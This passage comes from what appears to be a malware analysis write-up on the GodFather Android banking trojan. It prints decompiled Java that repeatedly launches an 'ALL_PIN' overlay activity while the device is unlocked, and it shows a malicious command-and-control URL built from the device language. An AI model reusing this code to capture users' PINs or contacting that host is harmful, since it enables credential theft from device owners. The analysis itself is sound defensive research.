 "|" + Locale.getDefault().getLanguage().toLowerCase(): Adds the device language as a parameter in the URL.
The parameters str and id could be generated by speculatd function (in detalis below).
Below the code of the speculated function


```java

                        Intent dialogIntent = new Intent(ctx, untraffickable.class)
                            .putExtra("str", "ALL_PIN")
                            .putExtra("id", "1500");



```

The result:
https://yukoramparata.top/zamra/aaa/rx/f.php?f=ALL_PIN&p=0hh2fpkr5zt72|en




#### Speculated

![Figure 23 - Speculated Class]({{ '/assets//images/2024-12-09-godfather-android-analysis/img23.png' | relative_url }}))


The function gets an instance of KeyguardManager, it checks whether the device is locked using the isKeyguardLocked() 
If the device is not locked (locked is false), the function creates a Timer object. 
It defines an anonymous TimerTask that performs a periodic task 


```java

public static void speculated(final Context ctx) {
    KeyguardManager km = (KeyguardManager) ctx.getSystemService("keyguard");
    boolean locked = km.isKeyguardLocked();
    if (!locked) {
        try {
            final Timer timerObj = new Timer();
            TimerTask timerTask = new TimerTask() {
                @Override
                public void run() {
                    if (Tamarix.bedamned(ctx, "opi").contains("false")) {
                        String bedamned = Tamarix.bedamned(ctx, "opo");
                        String effluvias = "true";
                        if (bedamned.contains(effluvias)) {
                            Besant.mismoving.cancel();
                            timerObj.cancel();
                            Tamarix.Sandrakottos(ctx, "oph", effluvias);
                            return;
                        }
                        Intent dialogIntent = new Intent(ctx, untraffickable.class)
                            .putExtra("str", "ALL_PIN")
                            .putExtra("id", "1500");
                        dialogIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                        dialogIntent.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP);
                        dialogIntent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
                        ctx.startActivity(dialogIntent);
                    }
                }
            };
            mismoving = timerTask;
            timerObj.schedule(timerTask, 0L, 2000L);
        } catch (Exception e) {
        }
    }
}
```